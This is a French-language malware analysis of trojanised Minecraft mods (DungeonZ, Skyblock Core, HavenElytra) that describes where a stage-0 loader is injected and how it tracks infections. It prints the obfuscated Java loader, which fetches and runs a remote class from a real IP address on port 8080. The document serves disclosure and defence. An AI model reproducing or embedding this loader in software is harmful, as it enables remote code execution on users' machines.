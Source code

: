 ## Étape 0 (jar infectés)

Les mods ou plugins affectés ont une nouvelle méthode `static void` inséré dans leur classe principale, ainsi qu'un appel vers cette méthode inséré dans l'initialiseur de la class. Pour DungeonZ, la méthode s'appelle `_d1385bd3c36f464882460aa4f0484c53` et se trouve dans `net.dungeonz.Dungeonmain`. Pour skyblock Core, la méthode s'appelle `_f7dba6a3a72049a78a308a774a847180` et se trouve dans `com.bmc.coremod.BMCSkyblockcore`. Pour HavenElytra, le code est inséré directement dans l'initialiseur de `valorless.havenelytra.HavenElytra`.

Le code est obfusqué, utilisant `new string(new byte[]{...})` au lieu de str litéraux.

Dans l'échantillon de D3SL "Create Infernal Expansion Plus", une version plagiant "Create Infernat Expansion Compat" avec un malware inséré dans la classe principale:
```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

Ce code:
1. Crée un `URLClassLoader` avec l'url `http://[85.217.144.130:8080]/dl` ([shodan](https://www.shodan.io/host/85.217.144.130))
2. Charge une classe `Utility` depuis le loader, prenant du code d'internet.
3. Appelle la méthode `run` dans la classe `Utility`, donnant en paramètre un str différent pour chaque mod infecté (!). E.g.
    * Skyblock Core: "`-74.-10.78.-106.12`"
    * Dungeonz: "`-114.-18.38.108.-100`"
    * HavenElytra: "`-114.-18.38.108.-100`"
    * Vault Integrations: "`-114.-18.38.108.-100`"

Les numerals sont ecrit dans un fichier nommé ".ref" sous forme de bits. Cela ressemble a un moyen pour l'auteur de suivre l'infection.
